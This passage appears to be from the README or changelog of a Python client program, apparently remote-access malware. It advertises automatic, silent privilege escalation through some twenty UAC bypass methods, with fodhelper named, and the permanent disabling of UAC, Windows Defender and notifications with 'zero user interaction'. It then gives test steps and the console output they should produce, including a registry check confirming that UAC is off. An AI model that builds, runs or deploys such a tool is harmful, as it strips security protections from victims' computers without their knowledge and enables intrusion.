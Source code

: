 ### After (New Behavior):
- ✅ Script runs immediately (no prompt!)
- ✅ UAC bypass attempted automatically (20 methods!)
- ✅ Admin privileges gained silently
- ✅ UAC disabled permanently
- ✅ Defender disabled automatically
- ✅ Notifications disabled automatically
- ✅ Background thread keeps retrying if needed
- ✅ **ZERO user interaction required!**

---

## 🧪 TESTING

### Test 1: Run as Normal User

```bash
# 1. Make sure you're NOT running as admin
whoami /groups | findstr "S-1-16-12288"
# Should show nothing (normal user)

# 2. Run client.py
python client.py

# 3. Watch console output
# Expected:
🔒 Not running as admin - attempting automatic elevation...
📋 Attempting 20+ UAC bypass methods...
[UAC BYPASS] Trying method 1/20: bypass_uac_fodhelper_protocol...
✅ [UAC BYPASS] SUCCESS! Method bypass_uac_fodhelper_protocol worked!
✅ UAC bypass successful! Now running with admin privileges!
✅ UAC permanently disabled!

# 4. Verify admin gained
# Script should continue with admin privileges
# No prompts should appear!
```

---

### Test 2: Verify UAC Disabled

```powershell
# After running client.py, check registry:
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA

# Expected output:
EnableLUA : 0  ✅

# This means UAC is FULLY DISABLED!
```

---